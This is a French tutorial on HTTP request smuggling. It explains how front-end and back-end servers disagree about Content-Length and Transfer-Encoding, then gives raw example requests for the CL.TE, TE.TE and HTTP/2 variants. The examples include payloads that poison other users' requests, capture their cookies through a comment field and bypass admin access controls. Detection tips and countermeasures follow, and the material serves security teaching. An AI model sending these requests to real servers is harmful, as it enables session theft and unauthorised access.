

# HTTP Request Smuggling

Le HTTP Request Smuggling exploite des désaccords entre les serveurs front-end (proxy, load balancer) et back-end sur la manière de délimiter les requêtes HTTP. Il permet d'injecter une requête malveillante dans le flux, qui sera attribuée à la prochaine requête d'un autre utilisateur.

## Contexte architectural



Le front-end et le back-end partagent une connexion TCP persistante et y font transiter plusieurs requêtes à la suite. L'ambiguïté sur les délimites crée la vulnérabilité.

## Délimitation des requêtes HTTP/1.1

Deux en-têtes définissent la longueur du corps d'une requête :

**Content-Length (CL)** : longueur en octets du corps.
**Transfer-Encoding: chunked (TE)** : le corps est envoyé en "chunks". Chaque chunk est précédé de sa taille en hexadécimal sur une ligne. `0\r\n\r\n` signifie fin.

```
POST /data HTTP/1.1
Transfer-Encoding: chunked

5\r\n
Hello\r\n
0\r\n
\r\n
```

La RFC dit que si les deux sont présents, TE prime sur CL. Mais tous les serveurs ne respectent pas cette règle.

## Types de vulnérabilités

### CL.TE — Front-end lit CL, Back-end lit TE

Le front-end croit que la requête fait N octets (CL), mais le back-end s'arrête au premier `0` (TE). La fin du corps CL reste dans le buffer du back-end et est préfixée à la prochaine requête.

```
POST / HTTP/1.1
Host: site.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

- Front-end : voit CL=13, lit "0\r\n\r\nSMUGGLED" = 13 octets → transmet tout
- Back-end : lit en chunked, voit "0" → fin de requête. "SMUGGLED" reste dans le buffer
- Prochaine requête d'un utilisateur : "SMUGGLED" est préfixé → comportement inattendu

### TE.CL — Front-end lit TE, Back-end lit CL

```
POST / HTTP/1.1
Host: site.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

- Front-end : lit en chunked, voit 8 octets "SMUGGLED" puis "0" → fin
- Back-end : lit CL=3, prend "8\r\n" comme corps → "SMUGGLED\r\n0\r\n\r\n" reste en buffer

### TE.TE — Deux serveurs lisent TE, mais l'un est désactivable

```
# Obfusquer le TE pour que l'un des serveurs l'ignore
Transfer-Encoding: xchunked
Transfer-Encoding: chunked
Transfer-Encoding : chunked      # Espace avant :
Transfer-Encoding: chunked
Transfer-Encoding: x
X: X\nTransfer-Encoding: chunked # Injection via header
```

## Exploitation

### Poisonner la prochaine requête (Account Takeover)

```
POST / HTTP/1.1
Host: site.com
Content-Length: 119
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: site.com
X-Custom-Header: INJECTED-HEADER
Foo: x
```

La prochaine requête d'un utilisateur verra son en-tête modifié. Si `X-Custom-Header` est utilisé par le back-end pour identifier les admins ou forwarder une IP → potentiel bypass d'auth.

### Capturer les requêtes des autres utilisateurs

```
POST /post/comment HTTP/1.1
Host: site.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: site.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 800
Cookie: session=attaquant-session

csrf=token&postId=5&name=test&comment=
```

Le corps de la prochaine requête d'un utilisateur est capturé comme contenu du champ `comment`. Si l'utilisateur envoie ses cookies dans cette requête → vol de session.

### Bypass de contrôles d'accès

```
# L'accès à /admin est bloqué depuis Internet par le front-end
# Mais le back-end fait confiance aux requêtes arrivant de la connexion partagée

POST / HTTP/1.1
Content-Length: 67
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Length: 0

```

La requête empoisonnée arrive au back-end comme venant de localhost → accès admin accordé.

## Détection

```bash
# Burp Suite → onglet Repeater → "Change request method"
# Activer "Update Content-Length" désactivé

# Test CL.TE basique : timer-based
POST / HTTP/1.1
Host: site.com
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
# Si le serveur attend les données manquantes du chunk → timeout → CL.TE

# HTTP Request Smuggler (extension Burp)
# Tester automatiquement CL.TE, TE.CL, TE.TE

# Scan OWASP ZAP avec plugin HTTP Smuggling
```

**Indicateurs de vulnérabilité :**
- Timeout lors de l'envoi de certaines requêtes ambiguës
- Réponses incorrectes sur les requêtes suivantes
- Erreurs 400/500 inattendues sur des requêtes normales

## HTTP/2 Downgrade Smuggling

Le HTTP/2 n'a pas de CL/TE — la longueur est gérée au niveau du protocole. Mais si le front-end traduit HTTP/2 → HTTP/1.1 pour le back-end, et réintroduit des en-têtes CL/TE, la vulnérabilité réapparaît.

```
# Requête HTTP/2 avec injection dans le header (H2.CL)
:method POST
:path /
:authority site.com
content-type application/x-www-form-urlencoded
content-length 0

GET /admin HTTP/1.1\r\n
Host: localhost\r\n
\r\n
```

## Contre-mesures

```nginx
# Nginx — normaliser les requêtes ambiguës
# Rejeter les requêtes avec CL et TE simultanément
proxy_request_buffering on;

# Apache — configuration stricte
# Rejeter les requêtes ambiguës
```

```
Solutions architecturales :
1. Utiliser HTTP/2 bout-en-bout (élimine l'ambiguïté CL/TE)
2. Fermer la connexion TCP après chaque requête (coûteux en performance)
3. Configurer front-end et back-end pour utiliser le même parseur
4. Désactiver le keep-alive entre front-end et back-end
5. Normaliser toutes les requêtes au niveau du front-end (rejeter TE si CL présent)
```
